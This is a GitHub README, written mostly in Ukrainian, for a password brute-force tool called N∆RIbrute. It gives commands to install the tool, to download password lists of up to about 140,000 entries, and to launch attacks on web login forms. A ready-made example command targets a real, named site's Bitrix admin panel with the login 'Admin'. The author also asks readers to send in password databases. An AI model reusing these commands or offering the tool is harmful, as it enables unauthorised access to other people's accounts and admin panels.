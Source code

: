<h1 align="center">Подпишись на мій телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
<h3 align="center">Паролів зараз ~29000</h3>
<img src="https://i.ibb.co/bJ0f863/Screenshot-2022-06-16-16-35-09-31-84d3000e3f4017145260f7618db1d683.jpg" alt="icon">
Постійно буду обновлювати якщо хочеш допомогти кидай бази паролів у мій телеграм у фарматі .txt @samurai_gh<br>
Можна сказати що він "універсальний" якщо форма відправки така <br>
post login[username]<br>
post login[password]<br>
Ті хто шарать зрозуміють<br>
<h3 align="center">Установка:</h3><br>
Клонуем git <br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Установка бази паролів (рандом по 500 паролів) <br>
```
python2 baza_pass.py
```
Завантажити базу 10000 паролів<br>
```
python2 full.py
```
Завантажити базу 140991 паролів(не оброблені)<br>
```
python2 all.py
```
Якщо потрібно скачати базу за номером(Для того щоб розсортувати по машинах) . Всі бази:https://github.com/Samuraianonweb/password<br>
Id бази це перші цифри (id)_500.txt<br>

```shell
python2 id_baza.py
```
<h3 align="center">Команда атаки:</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Посилання на панель/вхід<br>
-login = Логін (якщо відомо , якщо ні вставляємо Admin/admin)<br>
Приклади готової команди <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```

